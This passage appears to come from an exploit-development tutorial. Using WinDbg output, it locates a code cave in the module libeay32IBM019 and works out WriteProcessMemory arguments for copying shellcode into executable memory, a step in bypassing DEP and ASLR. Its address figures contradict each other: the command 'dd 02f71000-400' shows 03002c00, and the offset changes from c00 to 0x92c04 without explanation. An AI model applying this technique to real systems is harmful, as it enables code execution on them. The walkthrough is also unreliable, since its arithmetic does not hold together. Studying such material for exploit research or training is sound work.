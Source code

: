 We know that it we reached the start of the code section because the "Base Address" value is the same than our calculated value
Note that the memory protection PAGE_EXECUTE_READ is active. **Note**: A typical code page is not writable, but WriteProcessMemory takes care of this by making the target memory page writable before the copy, then reverting the memory protections after the copy.

To locate a code cave, we can subtract a sufficiently-large value from the upper bound to find unused memory large enough to contain our shellcode.
We have to **take the end address and substract a large value.**
```c
0:077> dd 02f71000-400
03002c00  00000000 00000000 00000000 00000000
03002c10  00000000 00000000 00000000 00000000
03002c20  00000000 00000000 00000000 00000000
03002c30  00000000 00000000 00000000 00000000
03002c40  00000000 00000000 00000000 00000000
03002c50  00000000 00000000 00000000 00000000
03002c60  00000000 00000000 00000000 00000000
03002c70  00000000 00000000 00000000 00000000
```
0x400 should be enough to contain our shellcode and we can see that it's full of zeros, from 03002c70 to 03002c00. We now have a region to store our shellcode inside the module. Remember that the module address will change on boot via ASLR, so we will have to calculate these address dinamically.
As we have to calcule this address dinamically, let's see the offset from the base address of our module: libeay32IBM019
```c
0:077> ? 02f71000-400 - libeay32IBM019
Evaluate expression: 3072 = 00000c00
```

The code cave starts at offset c00 from the module. **This code cave address contains a null byte, so we will use the offset 00000c04 instead.**
Summarizing the information we gathered so far, we **can use offset 0x92c04 together with the leaked module base address** as the second argument (lpBaseAddress) to WriteProcessMemory.

Let's proceed with the three following argument:
- lpBuffer: The address of the memory region we want to copy. We want to copy our shellcode, which will be located on the stack after we trigger the vulnerability. We will calculate this later.
- nSize: The shellcode size. We can hardcode this value once we generate it and push it to the stack.
- `*lpNumberOfBytesWritten`: A pointer to a writable DWORD where WriteProcessMemory wil store the number of bytes that were copied. We could use a pointer to a stack address, but it is easier to use an address inside the **data section of our module as we do not have to calculate it at runtime:**
We can use the !dh command to find the data section’s start address to dump the name of the module along with all header information.
```c 
0:077> !dh -a libeay32IBM019

...

SECTION HEADER #4
   .data name
    F018 virtual size
   D5000 virtual address
    CA00 size of raw data
   D2000 file pointer to raw data
       0 file pointer to relocation table
       0 file pointer to line numbers
       0 number of relocations
       0 number of line numbers
C0000040 flags
         Initialized Data
         (no align specified)
         Read Write

```
